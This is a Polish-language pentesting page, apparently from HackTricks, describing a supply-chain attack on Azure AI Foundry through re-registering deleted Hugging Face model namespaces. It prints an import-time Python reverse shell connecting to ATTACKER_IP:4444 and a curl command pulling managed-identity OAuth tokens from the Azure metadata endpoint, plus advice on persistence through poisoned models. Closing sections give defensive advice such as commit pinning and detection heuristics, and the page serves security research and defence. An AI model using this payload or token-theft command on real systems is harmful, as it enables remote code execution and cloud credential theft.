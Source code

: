 # Azure - AI Foundry Post-Exploitation przez ponowne użycie przestrzeni nazw modeli Hugging Face

{{#include ../../../banners/hacktricks-training.md}}

## Scenariusz

- Azure AI Foundry Model Catalog zawiera wiele modeli Hugging Face (HF) gotowych do wdrożenia jednym kliknięciem.
- Identyfikatory modeli HF mają postać Author/ModelName. Jeśli autor/org HF zostanie usunięty, każdy może ponownie zarejestrować tego autora i opublikować model o tej samej ModelName pod legacy path.
- Pipelines i katalogi, które pobierają tylko po nazwie (bez commit pinning/integrity), rozwiążą się do repozytoriów kontrolowanych przez atakującego. Gdy Azure wdroży model, loader code może wykonać się w środowisku endpoint, przyznając RCE z uprawnieniami tego endpointu.

Common HF takeover cases:
- Ownership deletion: Stara ścieżka 404 aż do takeover.
- Ownership transfer: Stara ścieżka 307 do nowego autora dopóki stary autor istnieje. Jeśli stary autor zostanie później usunięty i ponownie zarejestrowany, redirect przestaje działać i repo atakującego serwuje pod legacy path.

## Identyfikacja przestrzeni nazw (HF) możliwych do ponownego użycia
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## Przebieg ataku end-to-end przeciwko Azure AI Foundry

1) W Model Catalog znajdź modele HF, których oryginalni autorzy zostali usunięci lub przeniesieni (stary author usunięty) na HF.
2) Ponownie zarejestruj porzuconego autora na HF i odtwórz ModelName.
3) Opublikuj złośliwe repo z loader code, który wykonuje się podczas importu lub wymaga trust_remote_code=True.
4) Wdróż legacy Author/ModelName z Azure AI Foundry. Platforma pobiera repo atakującego; loader wykonuje się wewnątrz endpoint container/VM w Azure, dając RCE z uprawnieniami endpointu.

Przykładowy fragment payloadu wykonywany podczas importu (tylko w celach demonstracyjnych):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Notatki
- Wdrożenia AI Foundry, które integrują HF, zazwyczaj klonują i importują moduły z repozytoriów wskazane w konfiguracji modelu (np. auto_map), co może spowodować wykonanie kodu. Niektóre ścieżki wymagają trust_remote_code=True.
- Dostęp zwykle odpowiada uprawnieniom managed identity/service principal przypisanym do endpointu. Traktuj to jako punkt zaczepienia do wstępnego dostępu, umożliwiający dostęp do danych i ruch lateralny w Azure.

## Wskazówki poeksploatacyjne (Azure Endpoint)

- Wykonaj enumerację zmiennych środowiskowych i MSI endpoints w poszukiwaniu tokens:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- Sprawdź zamontowane storage, artefakty modeli i osiągalne usługi Azure przy użyciu pozyskanego tokena.
- Rozważ utrzymanie dostępu przez pozostawienie zatrutych artefaktów modeli, jeśli platforma ponownie pobiera z HF.

## Wskazówki obronne dla użytkowników Azure AI Foundry

- Przypinaj modele do konkretnego commita przy ładowaniu z HF:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Mirroruj zweryfikowane modele HF do zaufanego wewnętrznego rejestru i wdrażaj je stamtąd.
- Ciągle skanuj repozytoria kodu oraz defaults/docstrings/notebooks pod kątem na stałe zakodowanych Author/ModelName, które zostały usunięte/przeniesione; zaktualizuj je lub przypnij.
- Zweryfikuj istnienie autora i pochodzenie modelu przed wdrożeniem.

## Heurystyki rozpoznawcze (HTTP)

- Usunięty autor: strona autora zwraca 404; legacy path modelu zwraca 404 aż do przejęcia.
- Przeniesiony model: legacy path zwraca 307 do nowego autora, gdy stary autor nadal istnieje; jeśli stary autor później zostanie usunięty i ponownie zarejestrowany, legacy path będzie serwować zawartość atakującego.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Odniesienia krzyżowe

- Zobacz szerszą metodologię i uwagi dotyczące łańcucha dostaw:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Źródła

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}

